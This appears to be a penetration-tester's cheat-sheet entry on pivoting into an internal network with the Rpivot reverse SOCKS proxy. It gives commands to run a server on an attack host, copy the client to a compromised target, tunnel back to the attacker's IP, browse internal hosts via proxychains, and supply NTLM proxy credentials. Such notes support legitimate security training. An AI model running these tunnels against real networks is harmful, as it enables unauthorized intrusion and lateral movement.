 Web Server Pivoting with Rpivot
###############################

Date: 

Status: 

Tags: #pivoting around obstacles

Description
***********
Rpivot is a reverse SOCKS proxy for tunneling.  rpivot binds a machine inside a network to an external server adn exposes
the client local port on the server side. 


Installation
************

.. code-block:: console

    git clone https://github.com/klsecservices/rpivot.git


Use pyenv to switch to Python 2.7

Usage
*****


Example:  Setting up the connection

Step 1: Run Rpivot server from the attack host

.. code-block:: console

    python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

Step 2: Transfer rpivot to the client

.. code-block:: console

    scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

Step 3: Run the client from the pivot target

.. code-block:: console

    python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Now by using proxychains we can browse the internal network.

.. code-block:: console

    proxychains firefox-esr 172.16.5.135:80


NTLM Proxy
**********

Some cases where a proxy is enabled, you may have to use creds to connect.

Example:  Adding creds to the client

.. code-block:: console

    python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>

